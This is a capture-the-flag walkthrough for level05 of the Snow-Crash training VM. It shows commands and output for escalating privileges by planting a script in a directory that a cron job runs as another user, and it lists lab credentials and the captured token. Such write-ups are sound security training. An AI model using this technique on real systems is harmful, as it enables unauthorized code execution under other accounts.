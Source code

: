 # Flag 05

- Access to Snow-Crash VM using level05/ne2searoevaevoem4ov4ar8ap credentials
```
e1r9p7% ssh -p 4242 level05@10.11.100.146
```

- When logged in I had this msg "You have new mail.", so we have an email server here
```
level05@SnowCrash:/var/mail$ cd /var/mail | ll
-rw-r--r--+ 1 root mail  58 Feb 11 13:22 level05
```
- `cat level05 `
```
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

- Tham mean the the script `/usr/sbin/openarenaserver` will exec at every `*/2 * * * *` , at every 2nd minute. I will try to cat the script

- `cat /usr/sbin/openarenaserver`
``` shell
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

- The script exce all scripts in the folder `/opt/openarenaserver/` and then remove them.

- So I will try to write a script in `/opt/openarenaserver/script.sh` that exec the `getflag` cmd and write the result at `/tmp/output`, then I will have the output in 2 min.

```
level05@SnowCrash:/var/mail$ echo "getflag > /tmp/output" > /opt/openarenaserver/script.sh
level05@SnowCrash:/var/mail$ cat /tmp/output
cat: /tmp/output: No such file or directory
level05@SnowCrash:/var/mail$ cat /tmp/output
cat: /tmp/output: No such file or directory
level05@SnowCrash:/var/mail$ cat /tmp/output
cat: /tmp/output: No such file or directory
level05@SnowCrash:/var/mail$ cat /tmp/output
cat: /tmp/output: No such file or directory
level05@SnowCrash:/var/mail$ cat /tmp/output
Check flag.Here is your token : viuaaale9huek52boumoomioc
```